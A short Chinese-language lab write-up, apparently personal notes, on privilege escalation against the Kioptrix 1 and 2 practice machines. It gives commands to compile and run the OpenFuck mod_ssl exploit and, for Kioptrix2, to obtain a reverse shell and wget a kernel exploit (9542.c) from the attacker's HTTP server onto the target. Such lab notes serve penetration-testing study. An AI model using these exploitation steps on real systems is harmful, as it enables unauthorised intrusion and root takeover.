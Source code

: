 # 提权案例展示：

#### kioptrix1

```
kioptrix1
切入点：mod_ssl
查找mod_ssl相关漏洞，进行编译，即可提权成功
kali:searchsploit mod_ssl

cd Openluck
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6b 192.168.1.102 443 -c 50
```

![1710313346220](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710313346220.png)

查找对应版本。

./OpenFuck 0x6b 192.168.1.102 443 -c 50

在0x6b位置处填写。

#### kioptrix2

反弹shell内核提权

```
使用反弹shell语句获取shell.
使用内核提权。

查看内核版本
uname -a

新开命令窗口进行搜索（kernel：核心）
searchsploit linux kernel 2.6 centos

将9542.c复制
searchsploit -m 9542.c

在当前目录下打开http服务
python3 -m http.server 8080

回到刚才的shell窗口
输入
wget http://（kali的ip):8080/9542.c

如果发现提示权限不足
那么我们就返回到根目录
cd /
去查看那个文件夹具有写入权限
ls -l

发现/tmp有
```
